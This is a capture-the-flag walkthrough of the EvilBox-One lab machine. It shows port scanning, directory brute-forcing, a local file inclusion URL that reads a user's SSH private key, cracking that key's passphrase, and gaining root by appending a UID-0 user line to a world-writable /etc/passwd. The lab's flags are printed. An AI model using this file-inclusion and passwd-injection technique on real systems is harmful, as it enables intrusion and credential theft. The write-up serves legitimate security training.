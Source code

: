 ```yaml
---
title: EvilBox-One
categories: [Proving Grounds, Play]
tags: [LFI, PrivEsc, passwd]
image:
  path: https://i0.wp.com/pentestguy.com/wp-content/uploads/2023/07/evilbox-one-vulnhub-ctf-walkthrough-pentestguy.png?fit=1080%2C720&ssl=1
  width: "1200"
  height: "630"
  alt:  EvilBox-One Machine 🖥️
---
```




### Lets find out the IP of this Machine First ➡️

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled.png)

```bash
IP : 10.10.2.51
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/EvilBox-One]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.51
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 16:54 IST
Nmap scan report for 10.0.2.51
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 4495500be473a18511ca10ec1ccbd426 (RSA)
|   256 27db6ac73a9c5a0e47ba8d81ebd6d63c (ECDSA)
|_  256 e30756a92563d4ce3901c19ad9fede64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:94:F8:26 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%201.png)

Now lets see the Directory Listing files —>

```bash
feroxbuster -u http://10.0.2.51:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o ferox_80.json --depth 2 -C 403,404 -x php,html,txt,js
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%202.png)

Now lets look at `/secret/evil.php` file —>

Since it is blank I think this url is vulnerable to directory traversal attack , but for that I need a parameter on which basis I am gona search the `/etc/passwd` file —>   

Lets use burpsuite for that —>

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%203.png)

parameter fuzzing list ⤵️

[https://github.com/StrongShiv8/Wordlists-/blob/main/fuzz-lfi-params-list.txt](https://github.com/StrongShiv8/Wordlists-/blob/main/fuzz-lfi-params-list.txt)

Lets see the result on web —>

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%204.png)

Now I know user mowree so lets access for ssh private key through `/home/mowree/.ssh/id_rsa` →

[http://10.0.2.51/secret/evil.php?command=/home/mowree/.ssh/id_rsa](http://10.0.2.51/secret/evil.php?command=/home/mowree/.ssh/id_rsa)

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%205.png)

Lets get this file and decode its paraphrase value through john-the-ripper tool →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%207.png)

so the paraphrase for ssh login is : `unicorn`

Now its time for ssh login →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%208.png)

Lets check what we got here →

```bash
mowree@EvilBoxOne:~$ ls -al
total 32
drwxr-xr-x 4 mowree mowree 4096 ago 16  2021 .
drwxr-xr-x 3 root   root   4096 ago 16  2021 ..
lrwxrwxrwx 1 root   root      9 ago 16  2021 .bash_history -> /dev/null
-rwxr-xr-x 1 mowree mowree  220 ago 16  2021 .bash_logout
-rwxr-xr-x 1 mowree mowree 3526 ago 16  2021 .bashrc
drwxr-xr-x 3 mowree mowree 4096 ago 16  2021 .local
-rwxr-xr-x 1 mowree mowree  807 ago 16  2021 .profile
drwxr-xr-x 2 mowree mowree 4096 ago 16  2021 .ssh
-r-------- 1 mowree mowree   31 ago 16  2021 user.txt
mowree@EvilBoxOne:~$ cat user.txt 
56Rbp0soobpzWSVzKh9YOvzGLgtPZQ
mowree@EvilBoxOne:~$
```
{: .nolineno}
{: .nolineno}

Now lets see some file permissions and looks like I got something interesting →

```bash
mowree@EvilBoxOne:/var/backups$ ls -al /etc/passwd
-rw-rw-rw- 1 root root 1398 ago 16  2021 /etc/passwd
```
{: .nolineno}
{: .nolineno}

Now I have the permission to write so lets add a user name as `shiv` and `password` as password with root privileges.

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```
{: .nolineno}
{: .nolineno}

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```
{: .nolineno}
{: .nolineno}

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

![Untitled](/Vulnhub-Files/img/EvilBox-One/Untitled%209.png)

Now lets switch to shiv user —>

```bash
mowree@EvilBoxOne:~$ su shiv
Contraseña: 
root@EvilBoxOne:/home/mowree# whoami
root
root@EvilBoxOne:/home/mowree# cd ~
root@EvilBoxOne:~# ls -al
total 24
drwx------  3 root root 4096 ago 16  2021 .
drwxr-xr-x 18 root root 4096 ago 16  2021 ..
lrwxrwxrwx  1 root root    9 ago 16  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 ago 16  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 16  2021 .local
-rw-r--r--  1 root root  148 ago 17  2015 .profile
-r--------  1 root root   31 ago 16  2021 root.txt
root@EvilBoxOne:~# cat root.txt 
36QtXfdJWvdC0VavlPIApUbDlqTsBM
root@EvilBoxOne:~#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }